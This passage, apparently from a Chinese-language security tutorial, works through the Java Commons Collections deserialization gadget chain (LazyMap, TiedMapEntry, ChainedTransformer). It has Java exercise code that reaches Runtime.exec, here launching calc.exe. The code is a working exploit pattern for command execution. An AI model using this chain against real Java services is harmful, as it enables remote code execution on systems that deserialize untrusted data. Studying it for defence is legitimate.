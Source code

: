 ```java
        HashMap<String,String> hashMap = new HashMap<>();

        LazyMap lazyMap = (LazyMap) LazyMap.decorate(hashMap,invokerTransformer);


        // 4. 构造 TiedMapEntry 实例，构造方法是 public，故可直接 new 创建。用上述的 lazyMap 和 runtime 初始化该实例
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,runtime);

        // 5. 调用 tiedMapEntry.getValue() 方法完成命令执行

        tiedMapEntry.getValue();
        
    }

```
**小练习2：**

最终链子调用时是通过反序列化来开始的，这就要求有一个序列化的过程。然而 Runtime 类对象不可序列化，所以练习1的代码在实际中是无效的，我们需将上面的代码改成能够序列化的版本。

> 如何修改？如果你学习过CC1，那这是一个很自然的答案。若你完全没有CC1的基础，请先去学习。
> 关于可变参数的传参知识，可以看看[菜鸟教程](https://www.runoob.com/w3cnote/java-varargs-parameter.html)




```java
public static void main(String[] args) {

        // 1. 构造可序列化的 Runtime 类对象并封装到 chainedTransformer 中
        // 用 Class[].class 兼容 可变参数 Class...,Object[].class 同理
        Transformer[] transformer = {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc.exe"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);


        // 2. 构造 LazyMap 类对象，虽然构造方法是 protected，
        // 但 decorate 方法允许我们构造 LazyMap 类对象，注意需要强制类型转换，因为返回的是一个 Map

        HashMap<Map.Entry,String> hashMap = new HashMap<>();

        LazyMap lazyMap = (LazyMap) LazyMap.decorate(hashMap,chainedTransformer);


        // 4. 构造 TiedMapEntry 实例，构造方法是 public，故可直接 new 创建。用上述的 lazyMap 和 runtime 初始化该实例
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,123);//这里的key不需要是runtime实例，因为ChainedTransformer.transform 会进行转化

        tiedMapEntry.getValue();
    }

```
